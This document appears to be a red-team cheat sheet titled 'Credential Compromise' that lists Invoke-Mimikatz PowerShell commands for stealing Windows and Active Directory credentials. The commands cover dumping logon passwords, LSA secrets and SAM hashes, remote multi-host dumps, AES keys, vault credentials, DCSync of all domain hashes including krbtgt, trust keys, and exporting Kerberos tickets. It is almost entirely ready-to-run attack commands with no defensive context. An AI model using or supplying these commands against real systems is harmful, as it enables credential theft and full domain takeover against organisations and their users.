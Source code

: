 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

AES cred
```powershell
Invoke-Mimikatz-Command '"sekurlsa::ekeys"'
```

Credential Vault
```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```
Use the DCSync feature for getting hash
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

Trust key
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

Export all ticket
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```


